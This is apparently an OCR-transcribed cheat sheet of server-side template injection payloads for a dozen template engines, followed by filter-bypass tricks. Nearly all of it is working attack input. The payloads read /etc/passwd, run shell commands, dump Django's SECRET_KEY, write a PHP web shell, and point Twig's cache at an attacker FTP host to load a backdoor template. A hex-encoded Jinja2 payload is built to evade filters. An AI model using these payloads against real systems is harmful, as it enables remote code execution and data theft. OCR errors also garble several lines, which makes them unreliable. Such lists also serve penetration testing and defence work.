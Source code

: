 ## SSTI Polygot
```
${{<%[%'"}}%\.
```

## FreeMarker (Java):
```
${7*7}=49
```
```
<#assign command="freemarker template utility.Execute"?new()> ${ command("cat /etc/passwd") }
```

## Java:
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("") .getPath()}
${class.getResource(" .. / .. / .. / .. / .. /index.htm") .getContent()}
${T(java. lang. System) . geteny ( ) }
${product.getClass() .getProtectionDomain().getCodeSource().getLocation().toURI().re
solve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
## Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump (app)}}
{{app. request. server. all| join(',') }}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
## Smarty (PHP) :
```
{$smarty.version}
{php}echo `id ; {/php}
{Smarty_Internal_Write_File :: writeFile($SCRIPT_NAME," <? php passthru ($_GET['cmd' ]);
?>",self: : clearConfig())}
```
## Handlebars (NodeJS) :
```
wrtz{{#with "s" as | string| }}
{ {#with "e"}}
{{#with split as
{{this.pop} }
{{this.push (lookup string. sub "constructor" ) } }
{{this.pop}}
{{#with string.split as | codelist| }}
{{this.pop}}
{{this.push "return require('child_process' ) . exec ( 'whoami' ); "}}
{ {this.pop} }
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{ {/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
## Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set ($chr=$class.inspect("java.lang.Character") .type)
#set ($ex=$class.inspect("java.lang.Runtime") .type.getRuntime() .exec ("whoami"))
$ex.waitFor ()
#set ($out=$ex.getInputStream())
#foreach($i in [1 .. $out.available() ])
$str.valueOf($chr.toChars ($out.read()))
#end
```

## ERB (Ruby) :
```
<%= system("whoami" ) %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file' ) .read %>
```

## Django Tricks (Python):
```
{% debug %}
{{settings.SECRET_KEY} }
```

## Tornado (Python) :
```
{% import foobar %} = Error
{% import os %} { {os. system ( 'whoami' ) } }
```

## Mojolicious (Perl) :
```
<%= perl code %>
<% perl code %>
```
## Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base. subclasses () }} # get all classes
{{''.class.mro() [1].subclasses()}}
{%for c in [1,2,3] %}{ {c.c.c}}{% endfor %}
```

## Flask/Jinja2:
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```

## Jade:
```
#{root.process.mainModule.require('child_process') . spawnSync('cat', ['/etc/passwd']) .stdout}
```

## Razor (.Net) :
```
@(1+2)
@{// C# code}
```

### Bypassing filters
#### Blocking: `.`
- (`.`) → Uses `|attr()` to dynamically access attributes:  
```
request.application.__globals__  TURNS INTO: request|attr(‘application’)|attr(“__globals__”)
```

#### Blocking: `__`
- Hex Encoding (`\x5f`) for Underscores (`_`)

#### Blocking: `[]`
- Using `__getitem__()` Instead of `[]`

#### RCE Without `eval()` or `exec()`  
```
__import__(‘os’).popen(‘id’).read()  
```
- Avoids blocked `os.system()` and `subprocess.Popen()`.

#### Example payloads:
Payload to commit RCC (in jinja):
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
- Executes the `id` command
